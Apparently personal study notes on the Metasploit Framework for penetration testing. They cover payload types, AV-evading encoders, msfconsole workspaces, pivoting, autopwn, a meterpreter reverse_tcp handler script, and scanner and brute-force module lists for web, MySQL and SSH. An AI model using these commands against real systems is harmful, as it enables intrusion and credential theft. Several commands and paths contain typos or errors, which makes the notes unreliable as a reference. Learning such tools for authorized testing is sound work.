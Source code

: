 

The Metasploit Project is a computer security project that provides data about security vulnerabilities and assists penetration testing. It is owned by Rapid7, a US-based cyber security firm. A notable sub project of Metasploit is the open-source Metasploit Framework—a tool used to develop and run exploit code on remote target systems.

The Metasploit project includes anti-forensics and remediation tools, some of which are built into the Metasploit Framework. Metasploit comes pre-installed on the Kali Linux operating system.

 ### Modules
 - Exploit - A module that is used to take advantage of vulnerability and is typically paired with a payload.
 - Payload - Code that is delivered by MSF and remotely executed on the target after successful exploitation. An example of a payload is a revers shell that initiates a connection from the target system back to the attacker.
 - Encoder - Used to encode payloads in order to avoid AV detection. fro example, shikata_ga_nai is used to encode Windows payloads.
 - NOPS - Used to ensure that payloads sizes are consistent and ensure the stability of a payload when executed
 - Auxiliary - Module that is used to perform additional functionality like port scanning and enumeration.

When working with exploits. MSF provides you with two types of payloads than can be paired with an exploit
1. Non-Stages Payload - Payload that is sent to the target system as is along with the exploit.
2. Stages Payload - A staged payload is sent to the target in two parts whereby:
	- The first part( stager) contains a payload that is used to establish a reverse connection back tot the attacker, download the second part of the payload ( stage and execute it)

MSF stores module under the following directory on Linux systems
`/usr/share/metasploit-framework/modules`

User specified modules are stored under the following directory on LInux systems:

`~/.ms4/modules`

### Penetration Testing With MSF
| Penetration Testing Phase | Metasploit Framework Implementation |
| ---- | ---- |
| Information Gathering & enumeration | Auxiliary Modules |
| Vulnerabilty Scanning | Auxiliary Modules Nessus |
| Exploitation | Exploit Modules & Payloads |
| Post Escalation | Meterpreter |
| Privilege Escalation | Post Exploitation Modules Meterpreter |
| Maintaining Persistent Access | Post Exploitation Modules Persistence |

#### A very useful plugin is autopwn but you have to download it from git hub
You have to drop in `/usr/share/metasploit-framework/plugins`
`load db_autopwn`
`db_autopwn -h`
`analizew`
### Usage

Start the database
```bash
msfdb init
```

```bash
service postgresql start && metasploit
```

`search cve:2017 type:exploit platform:-linux`

### Create workspace
`workspace`
`hosts`
`workspace -a Test_workspace`
`workspace -d Test_workspace`

### Import nmap scan
You can import a .xml file [[nmap]] scan with `db_import <path_to_file.`
`hosts`
`vulns`
`services`
run 
### TCP Scan with msfconsole
`use auxiliary/scanner/portscan/tcp`

When you are doing pivoting and have a meterpreter session you can add the new IP with
`run autoroute -s <subnet_ip>`
Remember to add 1 to the last number

### Automating metasploit with resource scripts
They operate similarly to batch scripts, whereby, you can specify a  set of msfconsole commands that you want to execute sequentially.

You can load the script with msfconsole and automate the execution of the commands yous specified din the resource script.

We can use resource scripts to automate various tasks like setting up multi handlers as well as loading and executing payloads.

The resources are located in `/usr/share/metasploit-framewokr/scripts/resource`

You can write your own script like this

```bash
#handler.rc
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhosts 10.10.10.1
set lport 1234
run
```

You can load it in msfconsole `msfconsole -r handler.rc`


### WEB modules
- auxiliary/scanner/http/apache_userdir_enum
- auxiliary/scanner/http/brute_dirs
- auxiliary/scanner/http/dir_scanner
- auxiliary/scanner/http/dir_listing
- auxiliary/scanner/http/http_put
- auxiliary/scanner/http/files_dir
- auxiliary/scanner/http/http_login
- auxiliary/scanner/http/http_header
- auxiliary/scanner/http/http_version
- auxiliary/scanner/http/robots_txt
### MYSQL Modules
- auxiliary/admin/mysql/mysql_enum
- auxiliary/admin/mysql/mysql_sql
- auxiliary/scanner/mysql/mysql_file_enum
- auxiliary/scanner/mysql/mysql_hashdump
- auxiliary/scanner/mysql/mysql_login
- auxiliary/scanner/mysql/mysql_schemadump
- auxiliary/scanner/mysql/mysql_version
- auxiliary/scanner/mysql/mysql_writable_dirs

### SSH Modules
- auxiliary/scanner/ssh/ssh_version
- auxiliary/scanner/ssh/ssh_login